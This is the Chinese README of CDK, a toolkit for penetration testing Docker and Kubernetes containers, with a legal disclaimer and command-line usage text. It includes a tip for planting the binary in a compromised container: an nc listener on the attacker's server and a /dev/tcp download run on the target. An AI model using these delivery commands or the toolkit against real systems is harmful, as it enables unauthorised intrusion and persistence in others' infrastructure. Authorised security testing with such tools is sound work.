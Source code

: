 # CDK - Zero Dependency Docker/K8s Penetration Toolkit

简体中文 ｜ [English](https://github.com/Xyntax/CDK/wiki)

![png](https://static.cdxy.me/20201203170308_NwzGiT_Screenshot.jpeg)

## 免责声明

未经授权许可使用CDK攻击目标是非法的。
本程序应仅用于安全测试与研究目的。


## 介绍

CDK是一款为容器环境定制的渗透测试工具，在已攻陷的容器内部提供零依赖的常用命令及PoC/EXP。集成Docker/K8s场景特有的 逃逸、横向移动、持久化利用方式，插件化管理。

## 下载/植入
将可执行文件投递到已攻入的容器内部开始使用

https://github.com/cdk-team/CDK/releases/

#### 技巧：在真实渗透中如何通过漏洞exploit向容器中投递CDK

如果你的漏洞利用过程允许上传文件，即可直接植入CDK。  
如果你可以在目标容器中执行命令(RCE)，但容器中没有`wget`或`curl`命令，可以参考下面方法植入：  
  
1. 将CDK下载到你的公网服务器，监听端口：
```
nc -lvp 999 < cdk
```
2. 在已攻入的目标容器中执行：
```
cat < /dev/tcp/(你的IP)/(端口) > cdk
chmod a+x cdk
```

## 使用方法
```
Container DucK
Zero-dependency docker/k8s penetration toolkit by <i@cdxy.me>
Find tutorial, configuration and use-case in https://github.com/Xyntax/CDK/wiki

Usage:
  cdk evaluate [--full]
  cdk run (--list | <exploit> [<args>...])
  cdk <tool> [<args>...]

Evaluate:
  cdk evaluate                              Gather information to find weekness inside container.
  cdk evaluate --full                       Enable file scan during information gathering.

Exploit:
  cdk run --list                            List all available exploits.
  cdk run <exploit> [<args>...]             Run single exploit, docs in https://github.com/Xyntax/CDK/wiki

Tool:
  vi <file>                                 Edit files in container like "vi" command.
  ps                                        Show process information like "ps -ef" command.
  nc [options]                              Create TCP tunnel.
  ifconfig                                  Show network information.
  kcurl	(get|post) <url> <data>             Make request to K8s api-server.
  ucurl (get|post) <socket> <uri> <data>    Make request to docker unix socket.
```
